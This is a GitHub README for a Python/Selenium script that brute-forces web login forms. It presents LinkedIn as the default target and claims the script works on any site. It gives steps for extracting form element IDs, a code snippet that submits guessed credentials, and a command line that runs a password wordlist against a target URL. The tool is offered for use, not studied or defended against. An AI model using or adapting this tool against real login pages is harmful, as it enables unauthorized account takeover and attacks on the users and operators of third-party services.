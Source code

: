 # Selenium-Brute-Force
A simple python script for doing brute-force attack using selenium

## Help
- The default script is useful for Linkedin, but it works for everything. For other platforms, it needs to extract username id, password id, and login button class using browser inspector.

![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/file/help.jpg)<br />

put them in code.
```python
username = driver.find_element_by_id("username")		
username.clear()
print("username: "+curuser)
username.send_keys(curuser)		
password = driver.find_element_by_id("password")
password.clear()
print("password: "+passw+"\n")
password.send_keys(passw)			
driver.find_element_by_class_name('login__form_action_container').click()
```
- check chromedriver version (87.0) with your chrome, if there is an incompatibility, use appropriate version here <br />
https://chromedriver.chromium.org/downloads
## Usage
To get a list of basic options and switches use:
```python
selenium-brute.py -h
```
sample:
```
selenium-brute.py -t https://target.com -u admin -p pass.txt
```
![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/file/video.gif)


